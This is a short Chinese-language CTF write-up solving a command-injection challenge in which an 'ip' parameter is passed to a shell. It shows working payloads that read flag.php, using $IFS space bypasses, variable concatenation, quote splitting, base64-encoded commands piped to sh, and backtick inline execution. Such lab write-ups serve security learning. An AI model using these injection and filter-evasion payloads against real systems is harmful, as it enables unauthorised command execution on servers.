 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-25
---
```


## 思路

1. 本题最基本的Linux管道符|、&、;均可使用。

2. 利用ls，发现index.php和flag.php。

3. 说明本题最终目的很可能是读取flag.php来获得flag。

4. 测试如下：

   1. `ip=127.0.0.1;cat flag.php`  说明空格被过滤

      ![image-20210125210455150](../images/image-20210125210455150.png)

      绕过空格过滤的方法：$IFS$1、${IFS}、<>、

   2. `ip=127.0.0.1;cat${IFS}flag.php`，显示如下，说明{}可能被过滤

      ![image-20210125211837441](../images/image-20210125211837441.png)

   3. `ip=127.0.0.1;cat$IFS$1flag.php`，flag被过滤，说明$IFS$1可以绕过空格检查

      ![image-20210125211911716](../images/image-20210125211911716.png)

   4. 因此需要使用一种方法能绕过对flag的检测

      一般对黑名单进行绕过有以下方法：

      - 拼接 c=fl;d=ad;cat $c$d
      - base64编码 echo "base64后的命令"|base64 -d|sh
      - 双引号、单引号 c""at fl''ag
      - 反斜线
      - $1、$2、$@

      本题payload为：

      - ?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh（将cat flag.php进行base64编码）
      - ?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
      - 内联执行 将反引号内命令的输出作为输入执行
        - ?ip=127.0.0.1;cat$IFS$1`ls`

   

## 总结

- 命令执行变量拼接
- 过滤bash用sh执行
- 内联执行